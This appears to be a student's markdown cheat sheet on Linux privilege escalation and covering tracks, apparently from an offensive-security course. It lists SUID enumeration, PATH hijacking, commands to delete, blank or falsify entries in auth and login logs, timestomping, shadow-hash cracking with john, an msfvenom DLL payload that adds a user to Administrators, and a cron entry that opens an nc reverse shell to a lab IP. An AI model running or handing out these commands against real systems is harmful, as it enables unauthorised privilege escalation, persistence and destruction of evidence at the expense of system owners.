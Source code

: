 #### ENUMERATION FOR PRIVILEGE ESCALATION
  - What are your techniques and processes?
  - Any particular order?
  - Anything else you should be doing while on the box?
---
#### Sudo
  - `sudo -l` to check what commands the current user can sudo
---
#### SUID/SGID
  - lets you run something as a specific user or specific group
  - can abuse for your own convenience
  - `find / -type f -perm /4000 2>/dev/null`
    - finds files with SUID bit set
    - can search the files in GTFObins
  - `find / -type f -perm /2000 2>/dev/null`
    - finds files with SGID bit set
  - can do /6000, but be careful cuz can not work right sometimes or something idk
---
#### Unsecure Permissions
  - Cron
  - World Writable files and directories (any authorized user can write to (/tmp is a good one))
  - Dot '.' in the path
    - if dot in the path, can make a script that be like 
      ```bash
      #!bin/bash
      whoami > whoami.txt
      ```
    - `vim ls`
      - makes file called ls so when ls command is run it doesn't actually do ls, it does whoami and puts it into         whoami.txt
      
---
#### Vulnerable software and services
  - non-native 3rd party programs and stuff
    - buffer overflow type shit
      -  unless you can't buffer overflow, then you gotta analyze it and be a creative analyst to exploit
      -  fuck
---
#### Logs
Logs typically housed in /var/log, some useful logs:
  - lastlog --- each users successful login time
  - btmp --- tracks bad login attempts
  - secure --- Syslog
  - sulog --- use of su command
  - utmp --- users currently on (w)                 (hard to clean
  - wtmp --- permanent record on user on/off        (hard to clean)
  - auth.log/secure --- tracks usage of authorization

Cleaning the logs, basic
  - Just get rid of it
    - rm -rf (/path/file)
  - Blank it
    - cat /dev/null > (/path/file)
    - echo > /var/log/btmp

Cleaning the logs, precision
  - Always work off a backup
  - `egrep -v '10:49*| 15:15:15' auth.log > auth.log2; cat auth.log2 > auth.log; rm auth.log2 +
cp auth.log > auth.log2; sed -i 's/10.16.10.93/136.132.1.1/g' auth.log2; cat auth.log2 > auth.log +`
    - brain flexing 
   
Timestomp 
  - Easy with Nix vs Windows, native change of Access & Modify times
    - `touch -c -t 201603051015 1.txt`
    - `touch -r 3.txt 1.txt`
    - NOTE: Change time requires changing the system time than touch the file. Could cause serious issues
---
#### Rsyslog
- Newer Rsyslog call /etc/rsyslog.d/* for settings/rules
- Older uses /etc/rsyslog.conf
  - To find out:
    - `grep "IncludeConfig" /etc/rsyslog.conf`
---
`sudo apt install john`
  - copy hashes from shadow file into a .txt 
  - john passwords.txt --wordlist=rockyou.txt
    - wont crack another password again, have to do `john passwords.txt --show`
    - **IF U GET CREDENTIALS, PUT THEM IN YOUR OPNOTES**



proxychains scp comrade@192.168.28.27:/tmp/10-milli.txt .


msfvenom -p windows/exec CMD='cmd.exe /C "net localgroup Administrators comrade /add"' -f dll > hijackmeplz.dll



`crontab -e`
  - `* * * * * nc 192.168.28.135 33403 -e /bin/bash`




















